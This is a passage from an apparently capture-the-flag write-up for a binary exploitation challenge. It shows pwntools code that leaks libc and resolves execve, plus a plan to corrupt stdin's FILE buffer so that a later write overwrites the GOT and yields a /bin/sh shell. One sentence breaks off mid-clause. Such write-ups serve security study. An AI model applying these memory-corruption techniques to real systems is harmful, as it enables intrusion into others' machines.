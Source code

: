 ```python

	libcPhdr = findPhdr(libcBase)
	log.info("Libc's Program Header:................. " + hex(libcPhdr))

	PIE = libcBase
        libcDynamic = findDynamic(libcPhdr, libcBase, bits)
	log.info("Libc's _DYNAMIC Section:............... " + hex(libcDynamic))

	libcStrtab = findDynTable(libcDynamic, 5, bits)
	log.info("Libc's DT_STRTAB Table:................ " + hex(libcStrtab))

	libcSymtab = findDynTable(libcDynamic, 6, bits)
	log.info("Libc's DT_SYMTAB Table:................ " + hex(libcSymtab))

	symbolAddr = findSymbol(libcStrtab, libcSymtab, symbol, bits)
	log.success("%s loaded at address:.............. %s" % (symbol, hex(symbolAddr + libcBase)))
	log.info("Libc's base address:................... " + hex(libcBase))



puts_got = 0x0000000000601018
puts_libc = u64(leak(puts_got))
log.info("Puts @ " + hex((puts_libc)))
lookup("execve")

s.interactive()
```
The server times out after 1 minute. Within each step; finding the libc base, scanning symbol table, etc, the function breaks before finding the desired address, so the script is run again form where it broke, and initial values of iterative variables are hardcoded after each step to speed up the process and stay within the 1 minute time frame.

#### Exploitation
Now that we have the address of `system` and `execve` at `0x40010` and `0xb7e80` respectively, only thing left is to get a shell. No mitigations are enabled on the binary except NX.

```sh
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
So the GOT table is an attack vector. But which function's GOT entry should we overwrite with `system` ?. We don't control the first argument of any of the imported libc functions used in the binary and nothing much can be done with an `8-byte write`. We have to find a way to extend the write primitive. One idea was to overwrite `fflush` with the arbitary write code path `0x400A31`, so everytime `fflush` is called we get an arbitary write. This didn't work as expected as `scanf` and `printf` crashed due to unalligned stack. 

##### Exploit technique to get shell
We have the addresses of the file structure's of `stdin`, `stdout` and `stderr` in the bss section. Leak the address of `stdin` and overwrite `stdin->_IO_buf_base` with an address above GOT table. So in the next call to `scanf` we have large write to the GOT table.
We have to call `execve("/bin/sh",0,0)` and **not** system("/bin/sh") as system tries 
 After `scanf`, `fflush(stdout)` is called so we overwrite the GOT entry of `fflush` with `init_proc+21` and also overwrite `stdout` with pointer to "/bin/sh" in bss.
```
gdb-peda$ pd init_proc
Dump of assembler code for function init_proc:
   0x000000000040089b <+0>:	push   rbp
   0x000000000040089c <+1>:	mov    rbp,rsp
```
